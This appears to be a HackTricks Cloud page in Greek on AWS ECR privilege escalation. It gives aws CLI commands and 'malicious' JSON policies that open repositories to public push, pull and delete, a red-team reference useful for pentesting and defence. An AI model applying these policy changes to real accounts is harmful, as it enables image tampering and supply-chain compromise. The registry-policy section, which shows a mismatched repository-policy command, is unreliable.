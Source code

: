 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Ένας επιτιθέμενος με το **`ecr:GetAuthorizationToken`** και **`ecr:BatchGetImage`** μπορεί να συνδεθεί στο ECR και να κατεβάσει εικόνες.

Για περισσότερες πληροφορίες σχετικά με το πώς να κατεβάσετε εικόνες:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Potential Impact:** Έμμεση εκμετάλλευση δικαιωμάτων μέσω της παρεμπόδισης ευαίσθητων πληροφοριών στην κίνηση.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Ένας επιτιθέμενος με όλες αυτές τις άδειες **μπορεί να συνδεθεί στο ECR και να ανεβάσει εικόνες**. Αυτό μπορεί να είναι χρήσιμο για την κλιμάκωση δικαιωμάτων σε άλλα περιβάλλοντα όπου χρησιμοποιούνται αυτές οι εικόνες.

Για να μάθετε πώς να ανεβάσετε μια νέα εικόνα/να ενημερώσετε μία, ελέγξτε:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Όπως η προηγούμενη ενότητα, αλλά για δημόσιες αποθήκες.

### `ecr:SetRepositoryPolicy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να **αλλάξει** την **πολιτική** **αποθήκης** για να παραχωρήσει στον εαυτό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.\
Για παράδειγμα, σε αυτό το παράδειγμα, η πρόσβαση ανάγνωσης παραχωρείται σε όλους.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Περιεχόμενα του `my-policy.json`:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Όπως στην προηγούμενη ενότητα, αλλά για δημόσιες αποθήκες.\
Ένας επιτιθέμενος μπορεί να **τροποποιήσει την πολιτική αποθήκης** μιας δημόσιας αποθήκης ECR για να παραχωρήσει μη εξουσιοδοτημένη δημόσια πρόσβαση ή να κλιμακώσει τα δικαιώματά του.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη δημόσια πρόσβαση στο δημόσιο αποθετήριο ECR, επιτρέποντας σε οποιονδήποτε χρήστη να σπρώξει, να τραβήξει ή να διαγράψει εικόνες.

### `ecr:PutRegistryPolicy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να **αλλάξει** την **πολιτική αποθετηρίου** για να παραχωρήσει στον εαυτό του, τον λογαριασμό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

